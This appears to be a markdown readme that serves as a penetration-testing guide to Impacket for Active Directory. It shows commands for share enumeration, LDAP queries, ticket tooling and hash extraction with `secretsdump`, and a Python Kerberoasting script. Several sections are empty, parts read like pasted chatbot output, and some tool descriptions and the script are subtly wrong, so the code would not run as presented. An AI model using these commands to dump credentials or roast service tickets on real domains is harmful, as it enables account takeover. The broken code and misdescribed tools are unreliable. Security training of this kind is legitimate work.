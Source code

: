 # impacket

## Background Informaton

Impacket, a potent suite of Python scripts, stands as an indispensable tool in the realm of ethical hacking and penetration testing. Developed by SecureAuth Corporation, it provides a wide array of capabilities for analyzing and exploiting network protocols. Its versatility and effectiveness have made it a go-to tool for security professionals worldwide.

Primarily, Impacket focuses on manipulating Windows networking protocols, allowing users to interact with Windows-based systems in various ways. It supports multiple protocols such as SMB, NetBIOS, DCOM, NTLM, and more, enabling users to carry out tasks like establishing connections, extracting information, and even executing remote code.

One of the standout features of Impacket is its ability to perform NTLM relaying attacks. This technique allows an attacker to escalate privileges by intercepting authentication attempts and forwarding them to other systems, potentially gaining unauthorized access to critical resources.

Additionally, Impacket’s SMB library is a powerful asset for interacting with shared resources on Windows networks. It enables tasks like file transfer, remote process execution, and even querying the Windows registry.

Impacket has garnered a reputation for being user-friendly, with well-documented functionalities and a robust community for support. Its open-source nature also means that it can be customized and extended to suit specific needs.

Impacket's versatility in manipulating Windows networking protocols makes it an invaluable tool for ethical hackers and security professionals. Its capabilities for relaying attacks, interacting with shared resources, and more, position it as a crucial asset in the arsenal of any penetration tester or security researcher.

### Which Windows Protocols and Domain Controllers can Impacket exploit?

### Installation


### Attacking AD Environoments using Impacket


### AD User Enumeration

Impacket is a collection of Python classes for working with network protocols. It is particularly useful for penetration testing and security assessments, including Active Directory (AD) enumeration. In this explanation, I'll provide an overview of using Impacket for AD enumeration, focusing on some common scenarios and examples.

### Examples of AD Enumeration using Impacket:

#### 1. **Enumerating Shares:**

Impacket provides a tool called `smbclient.py` that allows you to connect to SMB shares on a target system. This can be useful for enumerating accessible shares.

```bash
impacket-smbclient -p 445 -no-pass //<target_ip>/[share_name]
```

Replace `<target_ip>` with the IP address of the target machine and `[share_name]` with the name of the share you want to enumerate.

#### 2. **Enumerating Users:**

Impacket has a tool called `secretsdump.py` that can be used to extract password hashes and other information from the Security Account Manager (SAM) database.

```bash
impacket-secretsdump -just-dc-ntlm <username>@<target_ip>
```

Replace `<username>` with a valid username and `<target_ip>` with the IP address of the target domain controller.

#### 3. **Enumerating Domain Information:**

You can use `ldapsearch.py` to perform LDAP queries on the target AD.

```bash
impacket-ldapsearch -dc-ip <target_ip> -U <username> -P <password> -d <domain> -b "<base_dn>" -s <scope> "<filter>"
```

- Replace `<target_ip>` with the IP address of the target domain controller.
- Replace `<username>` and `<password>` with valid credentials.
- `<domain>` is the domain name.
- `<base_dn>` is the Distinguished Name to start the search.
- `<scope>` is the scope of the search (base, onelevel, or subtree).
- `<filter>` is the LDAP filter.

#### 4. **Kerberos Ticket Extraction:**

Impacket includes a tool called `ticketer.py` that can be used to request and extract TGTs (Ticket Granting Tickets).

```bash
impacket-ticketer -spn cifs/<target_fqdn> -dc-ip <target_ip> -U <username> -P <password>
```

Replace `<target_fqdn>` with the fully qualified domain name of the target system.

### Note:

- Always ensure that you have proper authorization before attempting any penetration testing or security assessments.
- Some operations may require administrative privileges or specific rights within the AD environment.
- The examples provided assume a basic understanding of Active Directory concepts and networking.


### Privilege Escalation using Python

### Understanding Kerberoasting

Certainly! Impacket is a collection of Python classes for working with network protocols. It's particularly useful for crafting and manipulating network packets. One of the interesting features of Impacket is its ability to perform Kerberoasting, which is an attack technique targeting the Kerberos authentication protocol. 

Let's break down the process of using Impacket for Kerberoasting:

###  **Understanding Kerberos:**
Kerberos is a network authentication protocol designed to provide strong authentication for client/server applications. In a Kerberos environment, a Key Distribution Center (KDC) issues tickets to users and services. These tickets are then used to authenticate the users and services to each other.

### **Kerberoasting:**
Kerberoasting is an attack that exploits the fact that service account tickets (TGS tickets) are often long-lived and can be cracked offline. When a service ticket is requested for a service (e.g., Microsoft SQL Server), the ticket is encrypted with the service account's password hash. Attackers can capture this ticket and attempt to crack the password offline.

### **Using Impacket for Kerberoasting:**
Here's a basic script using Impacket to perform Kerberoasting:

```python
from impacket.krb5 import constants, types
from impacket.krb5.asn1 import AP_REQ
from impacket.krb5.kerberosv5 import getKerberosTGT, getKerberosTGS
from impacket.ntlm import getNTLMSSPType1

# Replace these with your target information
domain = 'example.com'
username = 'user'
password = 'password'

# Get a TGT (Ticket Granting Ticket)
TGT, cipher, session_key = getKerberosTGT(username, password, domain, lmhash='', nthash='')

# Replace this with the service principal you want to target
service_principal = 'MSSQLSvc/server.example.com:1433'

# Get a TGS (Ticket Granting Service) for the specified service
TGS = getKerberosTGS(TGT, service_principal, session_key, session_key)

# Extract the ticket from TGS
ap_req = AP_REQ()
ap_req.fromString(TGS['KDC_REP']['encrypted_part']['cipher'])
service_ticket = ap_req['ticket']

# Print the service ticket
print("Service Ticket:", service_ticket.dump())
```

In this script:

- `getKerberosTGT`: Obtains a Ticket Granting Ticket (TGT) for a given user.
- `getKerberosTGS`: Obtains a Ticket Granting Service (TGS) for a specified service using the TGT.
- `AP_REQ`: Parses the TGS to extract the service ticket.

### **Cracking the Ticket:**
Once you have the service ticket, you can attempt to crack it offline using tools like Hashcat or John the Ripper. The idea is to obtain the service account's password hash and then use it to gain unauthorized access.

### **Mitigation:**
To defend against Kerberoasting, it's crucial to use strong, unique passwords for service accounts and rotate them regularly. Additionally, monitoring and alerting on unusual or suspicious activity in the Kerberos environment can help detect and respond to potential attacks.

Please note that using Impacket or any other tool for unauthorized activities is against ethical guidelines and potentially illegal. Always ensure you have proper authorization before testing or using these tools in any environment.


### Gaining the Shell as a Domain Admin

# Final Thoughts
